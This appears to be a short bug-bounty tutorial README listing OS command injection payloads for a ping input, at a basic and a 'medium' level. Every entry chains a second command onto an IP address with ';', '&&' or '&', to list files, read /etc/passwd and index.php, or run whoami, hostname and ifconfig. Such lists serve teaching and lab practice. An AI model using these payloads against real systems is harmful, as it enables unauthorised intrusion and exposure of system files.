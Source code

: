 # bug-bounty-tutorial
bug bounty tutorial

## 7.command injection
```
ping -c4 127.0.0.1; ls
ping -c4 127.0.0.1 && ls

127.0.0.1; cat /etc/passwd
127.0.0.1; cat index.php
127.0.0.1; whoami; hostname; ifconfig; ls ../
127.0.0.1; echo 'hacked'
```

## medium
```
127.0.0.1 & whoami & hostname & ifconfig & ls ../
```
